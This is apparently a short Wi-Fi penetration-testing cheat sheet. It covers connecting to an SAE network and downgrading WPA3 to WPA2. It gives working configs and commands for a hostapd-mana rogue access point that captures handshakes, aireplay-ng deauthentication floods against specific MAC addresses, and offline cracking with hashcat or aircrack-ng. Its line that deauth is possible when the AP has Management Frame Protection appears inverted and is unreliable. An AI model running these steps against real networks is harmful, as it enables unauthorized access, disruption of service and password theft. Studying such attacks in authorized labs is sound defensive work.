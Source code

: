 ### Connecting to SAE (Simultaneous Authentication of Equals)
sae.conf
```
network={
    ssid="wifi-management"
    key_mgmt=SAE
    psk="chocolate1"
    ieee80211w=1
}
```
Connect
```
sudo wpa_supplicant -i wlan4 -c sae.conf

sudo dhclient wlan4 -v
```

### Downgrading WPA3 to WPA2
`sudo iw dev wlan6 scan | grep -A 25 "wifi-IT"`
If the AP support `PSK and SAE` (can be seen in Authentication suites)

Can also be detect as follow:
```
sudo airodump-ng wlan0mon -w /tmp/scan --band abg
cat /tmp/scan-01.csv | grep 'SAE PSK'
```
rogue-sae-it.conf (rogue AP)
```
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=rogue-sae-it.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
Start the rogue AP
```
hostapd-mana rogue-sae-it.conf
```
Is it possible to deauth ? 
Check if AP has Management Frame Protection  MFP(802.11w)
```
tshark -r /home/user/wifi/regional-01.cap -Y "wlan.rsn.capabilities" -V | egrep "SSID:|Management Frame Protection"
```
If the AP has MFP(802.11w), we can deauth

```
sudo iwconfig wlan0mon channel 11
sudo aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25 
sudo aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25  -c 10:F9:6F:AC:53:52
```
Crack the handshake (rogue-sae-it.hccapx) with `hashcat` or with `aircrack-ng`

